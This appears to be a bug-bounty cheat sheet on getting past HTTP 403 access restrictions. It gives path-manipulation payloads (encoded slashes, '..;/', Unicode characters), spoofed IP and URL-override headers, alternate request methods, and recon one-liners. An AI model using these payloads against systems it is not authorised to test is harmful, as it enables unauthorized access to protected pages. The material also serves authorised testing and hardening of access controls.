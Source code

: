 <h1> Bypassing 403 Responses </h1> <br>
<b> Install 403 bypass onto Burpsuite from the extender tool, this then becomes an extension you can run on 403 pages on Burpsuite </b></p> <br>
Further automated tool - https://github.com/iamj0ker/bypass-403 <br>
<b> Quick One Liner for 403 codes - subfinder -d domain.com — silent | httpx -sc 401,403 </b></br>

<h2> Directory Brute Forcing </h2><br>
Bruteforce the URL path on the 403 directory. Use different wordlists and experiment to see if you can access further pages after the 403 directory <br>
/access/user - 403    /access/user/properties.json  - 200 OK <br>
<br>

<h2> URL Paths </h2> <br>
Adding the following within the URL and the file that is 403'd or after the file that is 403'd<br>
admin/* <br>
admin/%2f/ <br>
admin/./ <br>
admin/ <br>
admin/*/ <br> 
admin/..;/ <br>
admin/..%3B/ <br> 
/*admin <br>
/%2fadmin/ <br>
/./admin <br>
/*/admin <br> 
/..;/admin <br>
/..%3B/admin <br> 
<br>
This is common on Apache Tomcat <br>

<h2> Change request methods </h2> <br>
Don't just send a get request, try POST, PATCH, PUT, GET, TRACE <br>
Try curl -H "Content-Length:0" -X POST https://www.domain/403'dpage
<br>

<h2> Add .json to the end of the file name, or brute force a .json file endpoint after the 403 file </h2>
  /api/user - 403 <br>
  /api/user/properties.json - 200 OK
<br>
  <h2> HTTP Headers </h2> <br>
  Change Host header to value of a subdomain, google.com etc <br>
  <br>
  Fuzz headers that may allow you to bypass <br>
X-Originating-IP: 127.0.0.1 <br>
X-Forwarded-For: 127.0.0.1 <br>
X-Forwarded: 127.0.0.1 <br>
Forwarded-For: 127.0.0.1 <br>
X-Remote-IP: 127.0.0.1 <br>
X-Remote-Addr: 127.0.0.1 <br>
X-ProxyUser-Ip: 127.0.0.1 <br>
X-Original-URL: 127.0.0.1 <br>
Client-IP: 127.0.0.1 <br>
True-Client-IP: 127.0.0.1 <br>
Cluster-Client-IP: 127.0.0.1 <br>
X-ProxyUser-Ip: 127.0.0.1 <br>
Host: localhost <br>
  
  <br>
  If the path is protected you can try the following headers <br>
 X-Original-URL: /path/file <br>
X-Rewrite-URL: /path/file <br> 
  Your normal request would be a request to / with the headers identifying the actual path. <br>
  <br>
  <h2> Path Fuzzing </h2> <br>
    if /admin is blocked : <br>
Try using /%2e/admin _(if the access is blocked by a proxy, this could bypass the protection). Try also_** /%252e**/admin (double URL encode) <br>
Try Unicode bypass: /%ef%bc%8fadmin (The URL encoded chars are like "/") so when it's encoded back it will be //path and maybe you will have already bypassed the /path name check <br>
    <br>
site.com/secret –> HTTP 403 Forbidden <br>
site.com/SECRET –> HTTP 200 OK <br>
site.com/secret/ –> HTTP 200 OK <br>
site.com/secret/. –> HTTP 200 OK <br>
site.com//secret// –> HTTP 200 OK <br>
site.com/./secret/.. –> HTTP 200 OK <br>
site.com/;/secret –> HTTP 200 OK <br>
site.com/.;/secret –> HTTP 200 OK <br>
site.com//;//secret –> HTTP 200 OK <br>
site.com/secret.json –> HTTP 200 OK (ruby) <br> 
<br>
 For unicoding, if you are trying to access /admin -403, try adding all the unicode characters in this list within the path https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt <br>
The request would be /FUZZadmin - /FUZZ/admin - /adminFUZZ <br>
<br>
  <h2> accessing via cname </h2> <br>
  Should you come across a 403 subdomain, try accessing via it's cname. - dig domain.com or use the site - https://dnschecker.org/cname-lookup.php <br>
